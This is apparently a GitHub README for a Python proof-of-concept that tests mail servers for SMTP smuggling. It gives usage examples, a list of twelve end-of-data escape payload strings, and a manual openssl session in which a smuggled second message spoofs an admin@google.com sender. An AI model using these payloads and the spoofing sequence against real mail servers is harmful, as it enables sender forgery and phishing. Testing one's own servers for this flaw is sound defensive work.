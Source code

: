 # smtp_smuggling_checker.py
### smtp smuggling testing tool with tls / starttls support

### Infos:
> [!NOTE]
https://www.postfix.org/smtp-smuggling.html
> 
> https://sec-consult.com/blog/detail/smtp-smuggling-spoofing-e-mails-worldwide/

<hr>

## How to use:

```python
       _____  __  ___ ______ ____     _____                                  __               ____   ____   ______
      / ___/ /  |/  //_  __// __ \   / ___/ ____ ___   __  __ ____ _ ____ _ / /___   _____   / __ \ / __ \ / ____/
      \__ \ / /|_/ /  / /  / /_/ /   \__ \ / __ `__ \ / / / // __ `// __ `// // _ \ / ___/  / /_/ // / / // /     
     ___/ // /  / /  / /  / ____/   ___/ // / / / / // /_/ // /_/ // /_/ // //  __// /     / ____// /_/ // /___   
    /____//_/  /_/  /_/  /_/       /____//_/ /_/ /_/ \__,_/ \__, / \__, //_/ \___//_/     /_/     \____/ \____/   
                                                           /____/ /____/                                          
    
    SMTP Smuggle PoC Script v0.1 for checking mailservers - 2024 - by suuhmer

    
usage: smtp_poc.py [-h] [--server SERVER] [--port PORT] [--user USER] [--rcpt RCPT] [--mode MODE] [--forcetls]

Test you mailserver for SMTP Smuggle /w STARTTLS und AUTH PLAIN login.

options:
  -h, --help       show this help message and exit
  --server SERVER  SMTP-(Servername, Domain or IP
  --port PORT      SMTP-Serverport (Use 5870000 for 587 NOSSL-FALLBACK)
  --user USER      SMTP-userername
  --rcpt RCPT      rcpt address
  --mode MODE      Rawmode = raw or Default = def
  --forcetls       Force connection via SSL/TLS

```


#### Run the script like this:

```bash
# Example : You have to setup the Parameters with the right values!

# Sending via extern SMTP server with STARTTLS support and PLAIN AUTH login (The asking for password will prompt!):
.\smtp_smuggler_poc.py --server mail.server.com --port 587 --user user@yourserver.com --rcpt vic@yourserver.com --mode def --forcetls

# Sending via local SMTP server with STARTTLS forced on port 25 and default login credential in RAW sending mode (telnet socket mode):
.\smtp_smuggler_poc.py --server localhost --port 25 --rcpt vic@yourserver.com --mode raw --forcetls
```

<hr>

> [!NOTE]
> ### Beware this is alpha POC !! tested with postfix and python3
>
> 
<hr>

![grafik](https://github.com/suuhm/smtp_smuggling_checker.py/assets/11504990/4891d7ef-ecb8-4428-9e01-345eb236b528)


### Testing of postfix mailserver for example (localhost port 25 auth plain login (optional)):
![grafik](https://github.com/suuhm/smtp_smuggling_checker.py/assets/11504990/f46c47ed-8cd7-4395-9d2e-12589a505e21)

### Extern login via TLS and PLAIN AUTH with getting MX servers

![grafik](https://github.com/suuhm/smtp_smuggling_checker.py/assets/11504990/7c182b91-4795-47da-8454-6bcd278f8d93)


<hr>

### Testing these 12 payload strings:
##### Smgggling Strings (0-11):

- 0 - smtp_smuggle_escape = '\r\n.\r'
- 1 - smtp_smuggle_escape = '\r.\r'
- 2 - smtp_smuggle_escape = '\r\n\x00.\r'
- 3 - smtp_smuggle_escape = '\r\n\x00.\n'
- 4 - smtp_smuggle_escape = \r\n\x00.\r\n
- 5 - smtp_smuggle_escape = \r\n.\x00\r\n
- 6 - smtp_smuggle_escape = '\r\n.'
- 7 - smtp_smuggle_escape = \n.\r\n
- 8 - smtp_smuggle_escape = \r.\r\n
- 9 - smtp_smuggle_escape = \n\n.\r\n
- 10 - smtp_smuggle_escape = \r\n.\r
- 11 - smtp_smuggle_escape = \n.\n

<hr>


### Using telnet / openssl client for TLS

```bash
# Get base64 auth String:
# echo -n -e "\000info@myserver.com\000MYPASSWORD" | base64
#

openssl s_client -starttls smtp -crlf -connect mail.myserver.com:587 -tls1_2

EHLO myserver.com

AUTH PLAIN <YOU_BASE_64_STRING>

mail From: info@myserver.com

rcpt To: test@google.de

DATA
354 End data with <CR><LF>.<CR><LF>
From: test <it@google.de>
To: bla <jadu@foo.de>
Subject: Test1
bodyy Test1
<CR><LF>.<CR>
mail From: admin@google.com
rcpt To: jadu@foo.de
data
From: hallo admin <it@google.de>
To: gege <jadu@aniwe.de>
Subject: hallooooo
bodyyhacked
<CR><LF>.<CR><LF>
```

